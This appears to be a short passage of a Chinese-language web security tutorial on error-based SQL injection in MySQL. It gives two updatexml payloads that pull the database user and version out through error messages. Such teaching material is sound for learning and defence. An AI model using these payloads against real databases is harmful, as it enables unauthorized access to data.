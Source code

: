 ### 报错注入

> 数据库显错，是指数据库在执行语句时因为语句的问题所显示的错误。报错注入是通过mysql语句的错误回显进行注入。

#### 获取数据库用户

```mysql
updatexml(null,concat(0x7e,(select user()),0x7e),null)
```

![image-20250222152355338](static/image/image-20250222152355338.png)

#### 获取MySQL版本

```mysql
updatexml(null,concat(0x7e,(select version()),0x7e),null)
```
